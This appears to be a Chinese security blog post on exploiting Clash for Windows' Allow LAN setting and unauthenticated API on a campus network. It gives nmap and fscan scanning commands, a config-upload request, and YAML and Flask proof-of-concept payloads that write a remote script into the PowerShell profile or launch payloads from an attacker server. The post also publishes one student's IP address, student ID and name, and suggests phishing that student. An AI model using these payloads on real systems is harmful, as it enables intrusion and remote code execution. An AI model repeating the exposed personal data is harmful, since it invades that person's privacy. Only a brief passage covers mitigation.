

Clash for Windows (CFW) 是我们科学上网的好帮手之一 (x), _理论上_ 科学上网是需要你知道你到底在干什么的. 显然, 大多数人根本不知道自己在干什么. 本文将介绍如何利用 CFW 的漏洞使你的流量费用爆炸, 使你的校园网账号被封号, 使你的 "内网" 不再 "私密", 甚至将你的电脑彻底拿下 (RCE).

利用链为: 开放代理 -> 开放 External API -> 上传恶意 Profile -> 任意文件写 -> RCE

<!-- more -->

## Allow LAN 真的是 Allow **LAN** 吗?

CFW 有一个功能叫 `Allow LAN`. _顾名思义_, 这个功能的作用是允许你的 _局域网_ 中的其它设备访问你的代理服务. 但是如果你看 Clash 的文档, 它的描述是 "代理端口监听所有网口的请求 (而非仅 127.0.0.1)". Clash 并不会检查请求的来源是否是局域网, 显然, 这是符合基本国情的 (哪来的那么多公网 IP 啊, 大家的电脑连上去的肯定是局域网啊). 但是对于你清的校园网来讲, 打开了 `Allow LAN`, 你的代理就 **向全世界开放** 了.

Clash 的代理没有认证 - 所以这就成为了一个开放代理. (实际上还是有些区别)

### 为什么这个问题相当严重?

(不可知可信度) 据一个同学说, CFW 的部分版本中, Allow LAN 是默认开启的. 所以相当多的人的 7890 端口就暴露在校园网里面.

之前出现过同学的 7890 端口被利用, 外人打进校园网的情况. 所以 [参见 thu.services](https://thu.services/services/#_10), 学校对 7890 端口的入校流量统一进行了封禁. 因此, 这个问题在你清算是稍微好了一点, 至少不会大面积被打了.

但是在校园网内部扫描 7890 端口, 则可见有相当多的端口暴露. (500个以上)

不过还有的同学觉得 7890 不好看, 想自己换个端口, 还开 Allow LAN. 于是他们收到了 its 的友好问候和封号通知 (乐.jpg)

## 如何利用这个问题

既然是一个开放代理, 那么显然我们可以利用这个代理做一些有意思的事情.

### 伪装自己

首先我们显然可以利用这样的开放代理伪装自己的 IP 地址. 很多人可能要说, _不管怎么伪装, 不还是你清的地址吗?_

确实. 对于对外的流量, 怎么变还是你清的地址, 你改变不了你在这个 AS 这一事实. 但是如果你的目标是校园网内部呢? 那么你就不再是你了: 你成为了为代理登录校园网账号的人.

于是你可以用这个代理肆意妄为, 反正最后被封号的是别人 (乐)

### 用来钓鱼

直接开个人的盒来举例子吧:

当你访问 [login.tinghua.edu.cn](https://login.tsinghua.edu.cn) 的时候, 如果你已经登录了账号, 你会获得号主的 email 名称. 比如这是 `59.66.135.29` 的账号:



于是通过一些公开可访问的手段很容易查到学号 `2021010851` 和姓名 `刘登科`. 找出一封 its 发给你的校园网安全问题提醒, 改一改, 挂个木马或者钓鱼网站, 这可信度蹭蹭往上涨 (x

### 用来访问内网

这倒不是什么真正可行的攻击手段, 毕竟谁在网关上挂 CFW 啊. 但是从原理上, 可以利用这个代理访问 Docker 服务 / 真正的 "局域网".

### 用来访问本机

我倒是觉得最有意思的是这个. 你可以获得 `127.0.0.1` 的访问权限, Bypass 掉很多防火墙, 甚至 **对 127.0.0.1 免认证** 的服务. (比如, qBittorrent 的网页版?) 当然还有这篇文章的重头戏 (x)

### 用来当代理

这个就不用说了, 你可以把这个代理当作自己的代理, 用来科学上网. 白嫖嘛, 有总是好的 (乐)

## 如何防止这个问题

显然, 把 `Allow LAN` 关掉就好了. 或者添加防火墙规则, 限制访问来源.

综上所述: _**如果你不知道 Allow LAN 有什么问题, 那就别开**_.

## 如何利用这个问题 (Again?)

我们已知: 学校的 IP 段 (可能暴露的 IP 段); 端口

需要找到: 开放暴露的代理

工具: 那显然是 nmap

```bash
nmap -p 7890 --open -iL ips.txt --min-rate 2500 -oX open-proxies.xml
```

但是 Clash 可能开放多种代理方式, 也可能有不一样的协议 (HTTP / SOCKS4 / SOCKS5). 如何判断这个端口开放了什么协议呢? 我们可以使用 `nmap` 的脚本扫描:

- `http-open-proxy`, 扫描 HTTP 代理
- `socks-open-proxy`, 扫描 SOCKS4/5 代理

问题: nmap 没办法判断 Clash 的 7890 端口是否是 HTTP 服务, 因此 `http-open-proxy` 不生效; 同理, `socks-open-proxy` 也不生效.

看 nmap 的 nse 文件, 有以下内容:

```js
portrule = shortport.port_or_service({8123,3128,8000,8080},{'polipo','squid-http','http-proxy'})
```

那么把 `7890` 加进去就好了.

现在得到了以下的脚本:

```bash
nmap -p 7890 --open -iL ips.txt --min-rate 2500 -oX open-proxies.xml --script http-open-proxy,socks-open-proxy
```

就可以拿到所有的开放代理了. 不过大家的 Clash 都不一定一直在线, 所以得到的结果显然是需要滚动更新的.

可惜, 扫学校的网显然是会被警告甚至封号的, 所以没办法一直这么干.

## 进一步利用

在拿到开放代理之后, 我们进一步分析 CFW 的控制模式:

CFW 拿到 Proxy Script 之后, 经过 Mixin 等东西收拾过之后, 把脚本通过 API 或者什么别的东西发给 Clash. 这隐含了一个问题: **我们可以通过 API 来控制 Clash**, 且只要有 CFW, 那么 Clash **一定会有一个在本地监听的 API**. API 文档上网查 (感觉有很多 Source).

比较新的 Clash 会强制要求生成 API Secret; 但是旧版本的并不强制, 所以基本上是开放的.

这个端口是随机的, 所以我们还得使用扫描的方式. 但是 nmap 好像有些问题, 没办法扫透过代理的 `127.0.0.1` (实际上扫的是本机), 因此我们使用 `fscan` 来完成这个任务.

```bash
./fscan -p10000-65535 -u 127.0.0.1 -socks5 59.66.135.29:7890 -np -nobr -noredis
```

在开放的端口里面查找 Clash API 的默认返回值 `{"hello": "clash"}` (Content Length: 18) 说明有可以利用的 API. 如果发现了 `{"message": "Unauthorized"}` (Code 401; Content Length: 27) 那么非常不幸 (幸运), 这个 API 是需要认证的.

## Information Gathering

按照 API 文档, 可以获取一下信息:

- `/version`: Clash 的版本
- `/configs`: Clash 的配置文件
- `/rules`: Clash 的规则文件
- `/proxies`: Clash 的代理列表 (可惜, 这里不会返回 secret, 不然就可以直接拿到代理了)
- `/providers`: Clash 的 Provider 列表
- `/logs`: Clash 的日志, WebSocket

## Exploitation

Clash / CFW 主要有两个已知的漏洞:

### Arbitrary File Write

在较低版本的 Clash / Clash-meta 中, 配置文件中 Provider 的 `path` 字段可以目录穿越, 从而写入任意文件. 在 Linux 下, 可以写 crontab RCE; 在 Windows 下可以写 Powershell 启动脚本, 或者注入什么 Python 啊之类的 lib, 实现 RCE. (Side-Effect: Clash 的原来的配置文件就没啦, 需要在 CFW 里面手动切换一下 Profile 来更新)

```http
PUT /configs HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json

{
    payload: "{payload}"
}
```

Payload 参考这个 ([clash-rce.pages.dev](https://clash-rce.pages.dev/evil.yaml) **这个页面本身就是 PoC!!! 在确定自己 Clash 没事之前别点!!! 点进去会跳转 Baidu, 建议 F12 抓一下或者 curl**):

```yml
mixed-port: 7890
allow-lan: true
mode: direct
log-level: debug
proxy-groups: 
  - name: Ouch!!!
    type: select
    use:
      - What
proxy-providers:
  What:
    type: http
    url: '{Your RCE script url}'
    interval: 36000
    # Arbitrary File Write here
    path: ../../Documents/WindowsPowerShell/Microsoft.PowerShell_profile.ps1
    healthcheck:
      enable: false
      interval: 600
      url: http://www.gstatic.com/generate_204
```

### CFW XSS RCE

在较低版本的 CFW 中, Profile 中的 HTML 标签会被解析, 从而可以利用 Electron 的 exec 功能进行 RCE. 基本想法和上一个一样:

```yml
mixed-port: 7890
allow-lan: true
mode: Rule
log-level: debug
proxies:
    - { name: , type: vmess, server: 123, port: '29999', uuid: B00EC15A-B535-411D-95D6-CAEA028C477F, alterId: 0, cipher: auto, udp: false }
proxy-groups:
    - { name: 'Huh?', type: select, proxies: [] }
```

显然, 用户在发现代理用不了了之后一定会看一眼 Rules 里面发生了啥, 于是, Boom~

## 结语

CFW 作者跑路啦!!! 安全补丁没有啦!!! 赶紧换别的吧!!!

## 参考

- [CFW XSS RCE (Freebuf)](https://www.freebuf.com/vuls/323348.html)

- [CVE-2023-24205 (CN-SEC)](https://cn-sec.com/archives/1518693.html) 覆盖 cfw-settings.yaml

  ```yml
  mixed-port: 7890
  allow-lan: true
  mode: Rule
  log-level: debugger
  external-controller: 0.0.0.0:9090
  proxies:
    - name: a
      type: socks5
      server: 127.0.0.1
      port: "17938"
      skip-cert-verify: true

  rule-providers:
    p:
      type: http
      behavior: domain
      url: "http://this.your.url/cfw-settings.yaml"
      path: ./cfw-settings.yaml # Overwrite cfw-settings.yaml
      interval: 86400
  ```

- [CVE-2023-43840](https://github.com/LovelyWei/clash_for_windows_1click_RCE) 右键打开 `file://` 链接

  ```py
  from flask import Flask, make_response

  app = Flask(__name__)

  @app.route("/evil")
  def index():
      resp = make_response("""
  rules:
    - DOMAIN-SUFFIX,evil,DIRECT
  """)
      resp.headers["profile-web-page-url"] = """file://c:/windows/system32/calc.exe """
      # poc try file://net/evil-server.com/nfs/evil/payload.app \\evil-server.com\evil\payload.exe to execute remote payload
      return resp

  if __name__ == '__main__':
      app.run(host = '0.0.0.0',
          port = 80,  
          debug = True)
  ```
